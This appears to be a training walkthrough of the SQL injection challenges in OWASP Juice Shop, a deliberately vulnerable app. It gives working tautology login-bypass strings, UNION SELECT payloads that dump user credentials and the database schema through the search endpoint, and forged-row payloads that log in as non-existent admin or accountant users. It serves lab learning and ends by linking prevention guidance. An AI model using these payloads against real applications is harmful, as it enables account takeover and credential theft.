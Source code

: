 # SQL Injection

This web application is vulnerable to SQL injection attacks specifically reshaping the SQL queries using the following techniques:
* Tautology based injection
* UNION select injection

## SQL injection challenges in OWASP juice-shop web app

|Name   |Description   |Difficulty   |
|---|---|---|
|Login Admin   |Log in with the administrator's user account   |⭐⭐   |
|Login Bender   |Log in with Bender's user account   |⭐⭐⭐   |
|Login Jim   |Log in with Jim's user account   |⭐⭐⭐   |
|Login Chris   |Log in with Chris' erased user account   |⭐⭐⭐   |
|Christmas Special   |Order the Christmas special offer of 2014   |⭐⭐⭐   |
|Database Schema   |Exfiltrate the entire DB schema definition via SQL Injection   |⭐⭐⭐   |
|User Credentials   |Retrieve a list of all user credentials   |⭐⭐⭐⭐   |
|Ephemeral Accountant   |Log in with the (non-existing) accountant acc0unt4nt@juice-sh.op without ever registering that user   |⭐⭐⭐⭐   |
|   |   |   |



Before a hacker can  start exploiting an insecure application, s/he must figure out how the application handles **bad** input first.

The best and original way of testing is with the single quote technique. Using the tick technique, two things should happen:

1. The input is sanitized or cleaned and returns a nice error message.

1. There is no sanitization we get something like below or something blatant or nothing.

## Tick Technique

First enter just an apostrophe in the Email input field. What errors do we get? Then try putting a tick at end of an existing user email like below.

![end-tick](object_Object.png)

The error response is crucial in determining the attack.

What will the attacker see on form page by inputting a single quote? It depends on how the application handles errors in the database. In this case, something nondescript. But what is remarkable is that there are no errors like, "**invalid email address and password**". But... we are seeing SQLite errors. Now the hacker also knows that the input is not being sanitized. And if there is no sanization, there's potential exploitation.

![inspector errors](descriptive_errors.png)

1. On the juice-shop app login page, type
   ```
   ' or true;
   ```
    semicolon is used to end a sql statement
   ```
   ' or true -- lkjlsdjlfkjsfsdlsjdlfjs
   ```
   ```
    dkfdk' or true -- blahblah
   ```

1. go to code [login code](https://github.com/bkimminich/juice-shop/blob/master/routes/login.js)

    We expose the code above and the backend sqlite on the web interface.

1. show juiceshop.sqlite

1. By the time the web app sends the query to sqlite, it looks like this.
    ```
    SELECT * FROM Users WHERE email='dkfdk' or true -- blahblah AND password='somehashedpassword'
    ```

    Due to the inclusion of a comment delimiter in the email field the password portion of the query will be ignored.

1. in fact, you can input this with any emails, like:
    ```
    support@juice-sh.op'; -- active
    chris.pike@juice-sh.op'; -- inactive
    ```
**Make everything else irrelevant following the semicolon as it closes the SQL statement**

## UNION based
### **List all products (whether active or not)**
    ')); or ')) --
This includes all products and **')); or ')) --** made other qualifications irrelevant.

### **List all users**
```
anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--

http://localhost:3000/rest/products/search?q=anything')) UNION SELECT email,password,3,4,5,6,7,8,9 FROM Users--
```
the nonsensical text after __q=__ is a technique to make the api search for that nonexistent product. but the sql code proceeds with the payload.

### **Voila the schema**
```
http://localhost:3000/rest/products/search?q=sldjfwo')) UNION SELECT sql,2,3,4,5,6,7,8,9  FROM sqlite_master--

```

### **ephemeral accounts**

when you register a new account, from the inspector we know that the fields (or keys) are used.

![columns used](upon_registration.png)


start with
```
' union select 1;
```
It is universal to return from this temp table the 1 record with a single field that has value 1.
From the image above, we see that we need at least 10 columns. Try:

```
' union select 1,1,1,1,1,1,1,1,1,1;
```

It needs exactly 12 columns. We see now that we do not get any SQL errors, but we get a new prompt page.

![2fa auth](2fa_required.png)

We need to experiment a little bit to find out where this  totpSecret should be. But looking at the schema, you'll note that totpSecret is 5th from the last. Try:


```
' union select 1,1,1,1,1,1,1,'' as 'totpSecret',1,1,1,1;
```

Obviously, we can log in with just the totpSecret filled in for this application. Let's try adding an email.

```
' union select * from (select 1,1,'nem@akdm.nt' as 'email',1,1,1,1,'' as 'totpSecret',1,1,1,1);
```
or even add a role:
```
' union select 1,1,1,1,'admin' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
Get points by inserting email of fake accountant:
```
' union select 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1;
```
How does it look when sent to database?
```
SELECT * FROM users WHERE email = '' UNION SELECT * FROM (SELECT 1,1,'acc0unt4nt@juice-sh.op' as 'email',1,'accounting' as 'role',1,1,'' as 'totpSecret',1,1,1,1)
```

## sqlite_master

The SQLite database holds the database schema in the table sqlite_master.
Table definition

The table definition is as follows:

    Type : Type is Index or Table.
    name : Index or table name
    tbl_name : Name of the table
    rootpage : rootpage, internal to SQLite
    sql : The SQL statement, which would create this table.

## API endpoint

**Login SQL code**

![login sql](sql_login.png)

**Search SQL code**

![search sql](sql_search.png)

* [SQL code used in search](https://github.com/bkimminich/juice-shop/blob/master/routes/search.js)


## How to avoid sql injection

1. [protection](https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html)